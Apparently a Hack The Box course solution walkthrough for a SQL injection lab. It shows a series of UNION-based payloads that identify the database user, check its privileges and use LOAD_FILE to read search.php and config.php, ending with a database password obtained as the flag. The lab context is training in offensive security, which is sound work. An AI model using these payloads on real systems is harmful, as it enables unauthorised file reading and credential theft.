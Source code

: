 ## Question 1

### "We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password."

Students first need to know the current user that is executing the SQL queries in the backend server:

Code: sql

```sql
foo' UNION SELECT 1,user(),3,4-- -
```

![[HTB Solutions/CBBH/z. images/5ed1e259cf847d1b6f46044bb6882b6e_MD5.jpg]]

The user is `root`, which is an account that possess many privileges.

Students then will need to test if the current user has super admin privileges:

Code: sql

```sql
foo' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

![[HTB Solutions/CBBH/z. images/260296a94303871a3436eb56a09427ea_MD5.jpg]]

`Y` denotes `YES`, thus, the current user has super admin privileges. Students then will need to enumerate other privileges that the current user has to check whether they can read files or not:

Code: sql

```sql
foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

![[HTB Solutions/CBBH/z. images/b98bf72ae44b83660a5d71e3a9bec40b_MD5.jpg]]

The `FILE` privilege is listed for the current user, thus, the current user can read files.

Since students can read files, they first need to load the "search.php" file and view its source code:

Code: sql

```sql
foo' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Students will notice that the "config.php" file is imported using the `include` command:

![[HTB Solutions/CBBH/z. images/879d0ad450ebf2b9e9dc90b362004970_MD5.jpg]]

Thus, at last, students need to load that file and find the flag as the value for `DB_PASSWORD`:

```sql
foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
```
